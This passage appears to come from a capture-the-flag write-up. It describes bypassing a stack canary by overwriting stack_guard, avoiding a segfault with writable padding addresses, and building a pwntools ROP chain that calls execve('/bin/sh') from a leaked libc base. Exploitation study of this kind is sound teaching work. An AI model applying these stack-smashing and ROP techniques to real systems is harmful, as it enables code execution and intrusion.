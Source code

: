 ### Circumventing a Segfault
If we naively overwrite a large portion of the stack to overwrite the `stack_guard`, we trigger a segmentation fault (segfault) in the function `__pthread_disable_asynccancel`.
We inspect the offending instruction:
```
(gdb) x/1i $rip
=> 0x7f1cf3dc2b62 <__pthread_disable_asynccancel+18>:	mov    BYTE PTR [rax+0x972],0x0
(gdb) i r rax
rax            0x6161616161616161  7016996765293437281
```
It turns out we overwrote an address that will be used to store a value in the function `__pthread_disable_asynccancel`.
This causes a segfault, since `0x6161616161616161` is not a writeable address.
To circumvent this, we overwrite the stack with writeable addresses for the padding to reach the `stack_guard`.
The address we leaked with Vulnerability 1 appears to be writable, so we reuse this value.

Without a working ROP chain, this still triggers a segfault, but we confirm that we have successfully hijacked control flow:
```
(gdb) x/1i $rip
=> 0x55afd3849bc1:	ret    
(gdb) x/1gx $rsp
0x7fe14d6b7e58:	0xdeadbeefdeadbeef
```
This shows we can return to an arbitrary address, `0xdeadbeefdeadbeef` in this case, which is not an executable address (hence the segfault).

## Gaining Code Execution
At this point it only comes down to creating a working ROP chain.
Since we have a `libc` leak, we can use the code in this create this chain.
As we are given the exact `libc` library used in the challenge, this is automateable with `pwntools`.
```python
libc = pwn.ELF(os.path.join(os.getcwd(), 'glibc', 'libc.so.6'))
pwn.context.binary = libc 
libc.address = libc_base

rop = pwn.ROP(libc)

bin_sh_addr = next(libc.search(b'/bin/sh'))
rop.execve(bin_sh_addr, 0, 0)
```
